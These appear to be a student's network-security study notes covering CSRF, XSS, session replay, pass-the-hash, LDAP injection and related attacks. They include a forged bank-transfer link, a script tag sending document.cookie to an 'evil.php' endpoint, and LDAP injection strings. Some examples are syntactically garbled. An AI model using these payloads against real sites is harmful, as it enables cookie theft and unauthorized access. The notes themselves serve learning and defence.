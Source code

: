 #NetworkSecurity [[27. Threat Intelligence]]
# Buffer overflow
- Address space randomization minimizes the changes that it can occur

# Null pointer dereference attack
- Could cause error handling conditions to be overwrote
- Could cause the very first thing that gets executed in memory to be overwrote

# Cross site request forgery (CSRF)
- <a href=”[https://www.w3schools.com](https://www.w3schools.com)”> Visit W3Schools </a>
- <a href=”[https://www.mybank.com?action=transfer&to=1789433&amount=1000$”](https://www.mybank.com?action=transfer&to=1789433&amount=1000$%E2%80%9D)> Funny_Image.jpg </a>
- The victim must have been logged in recently and clicked the “keep me logged in” button which gives the user a session cookie.
- Protections:
    - No keep me logged in button
    - Can this be done in one click?
- Steps
    - Perpetrator forges a request for a fund transfer to a website
    - Perpetrator embeds the request into a hyperlink and sends it to visitors who may be logged into the site
    - A visitor clicks on the link, inadvertently sending the request to the website
    - Website validates request and transfers funds from the visitor’s account to the perpetrator

# Session replay attack
- Not a specific attack, but a class of attacks where an attacker is able to get credentials and play it back to the server at a different time and get the same results
- For example if Logan is talking to Grace and sends Grace a password and an attacker is able to get the packet, can the attacker pass the packet to Grace at a different time.
- Timestamps prevent this, if the timestamp was from the past it cannot be reused.

# Cross site scripting
- Say you have craigslist or a chatroom, the site needs to allow you to upload content, you can not only post text but also formatted text. Say you are commenting on an article or posting a used car add. Maybe I am not just going to bold the text but also put in a <SCRIPT> tag. You have created a javascript and embedded it in the uploaded data. </SCRIPT>
- Possible when a user can upload HTML content (with scripts).
- Utilizes the trust a victim has for a 3rd party website.
- Could be a session replay attack if you steal some ones cookie OR you can run any code that is something that the website allows you to do.
- <SCRIPT type=”text/javascript” varaddr=’../evil.php?cakemonster=’ + escape(document.cookie);> </SCRIPT>
- Steps
    - Hacker injects trusted website with malicious script
    - Victim visits trusted website and triggers malicious script
    - Victim’s browser executes malicious script and unknowingly forwards desired information (session token, cookie, etc.) to hacker.

# Pass the hash (example of session replay)
-   Has a couple of assumptions:
    -   An account is compromised, someone else has hacked one computer in an organization
    -   Victim has admin rights on the local machine
    -   Another victim has logged onto the machine previously
-   Attack
    -   Hacker dumps the local security authority memory (keeps a copy of the username and hashed password).
    -   Hacker retrieves the username and hash of other users that have logged on fairly previously
    -   Hacker can pass the hash to validate themselves

# LDAP injection attack
-   Looking up users
    -   [](http://www.mycorp.com/people_search.asp?name=Sam)[http://www.mycorp.com/people_search.asp?name=Sam](http://www.mycorp.com/people_search.asp?name=Sam))(zone=public)(zone=public))
    -   [](http://www.mycorp.com/people_search.asp?name=Sam)[http://www.mycorp.com/people_search.asp?name=Sam](http://www.mycorp.com/people_search.asp?name=Sam))(zone=*)(zone=public))
-   Normal code statement
    -   find(”(&cn=” + username + “)(userPassword=” + pass +”))”)
        -   This statement looks up a person whose username is this and password is this?
    -   find(”(&cn=” + admin(&))+ “)(userPassword=” + Whatever!+”))”)
        -   The and means true, in LDAP the second statement is ignored, only the first is used
    -   find(”(&cn=” + admin(&))+ “)(userPassword=” + Whatever!+”))”)
        -   The blue does nothing
-   Prevention is the same as SQL injections
    -   Parameterized queries
    -   Character escaping

# Header Manipulation Attack
- Collect of Exploits
- We craft a get request with non-standard parameters to perform a variety of functions
- Two requests (second request is smuggled in with the first)
- Tricking the server to execute a script
- Poisoning the DNS cache

# Web Browsing Threats
- "Because that's where the money is"
- Cookies
- Autofill
- Third-Party Plugins
- Flash
- JavaScript

# Client-Side Attacks
- When the Server is malicious
- Watering Hole Attacks
- Driver Attack Example

# Zero-Day Attack
- Previously unknown attacks
- Hard to defend against
- Developer process to eliminate
	- Analyze
	- Test
	- Report
	- Mitigate

# The Waterfall Methodology
- System / Software Requirements - Requirement Document
	- Analysis - Model
		- Design - Software Architecture
			- Coding - Code
				- Testing - Test Report
					- Operations - Working System